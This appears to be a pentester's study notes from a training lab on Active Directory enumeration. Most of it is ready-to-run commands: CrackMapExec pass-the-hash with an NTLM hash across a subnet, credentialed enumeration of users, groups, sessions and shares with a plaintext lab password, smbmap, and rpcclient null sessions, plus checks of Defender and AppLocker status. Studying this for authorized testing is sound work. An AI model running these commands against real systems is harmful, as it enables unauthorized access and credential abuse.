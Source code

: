 ```sh
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Enumerating security protocols

using ```Get-MpComputerStatus``` allows us to to get current microsoft defender status ```RealTimeProtectionEnabled``` parameter is set to True

### AppLocker
is a white list application program that enables administrators to set a white list programs to be installed.

```ps
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Creds enumerations

Use crackmap exec, see the pdf attached to this folder

when pwning a user we can use those commands 
```sh
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
head -n 10 /tmp/cme_spider_plus/172.16.5.5.json  ## to see the file
```
another handy tool to check smb is smbmap

```sh
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only

```
Now that we've covered shares, let's look at RPCClient.

rpcclient, is a handy tool but gives a lot of output it frustrates me :p 

```sh
rpcclient -U "" -N 172.16.5.5 # for the null sessions
# we should see a prompt 
rpcclient $>

rpcclient $> queryuser 0x457 #RPCClient User Enumeration By RID

# if we don't have the user's RID
rpcclient $> enumdomusers  # to enumerate all RID's
```

Another handy and well used tool, is impacket
